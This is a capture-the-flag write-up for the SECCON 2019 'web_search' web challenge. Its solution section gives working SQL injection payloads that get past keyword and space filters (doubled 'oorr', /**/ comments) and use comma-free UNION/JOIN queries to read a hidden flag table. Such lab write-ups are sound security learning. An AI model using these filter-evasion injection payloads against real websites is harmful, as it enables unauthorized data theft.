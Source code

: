 # web_search [212pts]

## Description

```
Get a hidden message! Let's find a hidden message using the search system on the site.

http://web-search.chal.seccon.jp/
```

## Content

In this challenge, our payload will merged into SQL string, executed, and output will printed in main page.
![Main page](https://github.com/sumango3/ctf/blob/master/Images/2019-SECCON-CTF/web_search.png)
By testing with some words, we may assume that SQL may look like following:
```
SELECT * from $table_name WHERE $column1 LIKE "RFC%" and $column2 LIKE '$q' LIMIT ($page*50, ($page+1)*50);
```
Also, `or`, `(space)`, `,` will be removed before executing SQL.

## Solution

### 'or', space filtering bypass

As the word `or` is removed before executing SQL, we can put `oorr`, so that it becomes `or` after filtering.
We can use SQL comment `/**/` instead of space, and `#` for ignoring all following words.
In result, the payload will be following:
```
'/**/oorr/**/true#
```
And this will give us a new row.
![Stage 1](https://github.com/sumango3/ctf/blob/master/Images/2019-SECCON-CTF/web_search_1.png)

```
FLAG
    The flag is "SECCON{Yeah_Sqli_Success_" ... well, the rest of flag is in "flag" table. Try more!
```
So we should do something more.

### multi column table without comma

As we want to read something in table flag, we should UNION it.
The problem is, we should make number of columns of two tables same, but we cannot use comma.
In this case, we can use SQL JOIN to make multi column table.
```
SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b
```
will select all rows from `CROSS JOIN`ed table of following two tables:

| a |
|---|
| 1 |

and

| b |
|---|
| 2 |

In result, the following table comes out:

| a | b |
|---|---|
| 1 | 2 |

Assuming the `flag` table has only one column and RFC table has two columns, we can use following payload:
```
'/**/UNION/**/SELECT/**/*/**/FROM/**/(SELECT/**/*/**/FROM/**/flag)a/**/JOIN/**/(SELECT/**/2)b#
```
replacing `/**/` with space for readability, it becomes
```
' UNION SELECT * FROM (SELECT * FROM flag)a JOIN (SELECT 2)b#
```
But, this does not work, so our assume was wrong.
Next guess was 3 column RFC table and 1 column flag table.
```
'/**/UNION/**/SELECT/**/*/**/FROM/**/(SELECT/**/*/**/FROM/**/flag)a/**/JOIN/**/(SELECT/**/2)b/**/JOIN/**/(SELECT/**/3)c#
```
and this will give us
![Stage 2](https://github.com/sumango3/ctf/blob/master/Images/2019-SECCON-CTF/web_search_2.png)
```
You_Win_Yeah}
    2
```

## Flag

	SECCON{Yeah_Sqli_Success_You_Win_Yeah}
